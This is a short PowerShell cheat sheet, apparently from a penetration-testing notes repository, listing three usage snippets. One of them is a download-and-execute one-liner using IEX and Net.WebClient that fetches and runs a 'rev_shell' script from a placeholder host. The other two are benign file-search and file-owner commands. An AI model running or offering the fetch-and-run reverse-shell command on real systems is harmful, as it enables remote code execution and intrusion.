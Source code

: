 # Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -Path "C:\Path\To\Search" -Recurse -Filter "filename*"

Show owners of files and dirs

	cmd.exe /c "dir /q"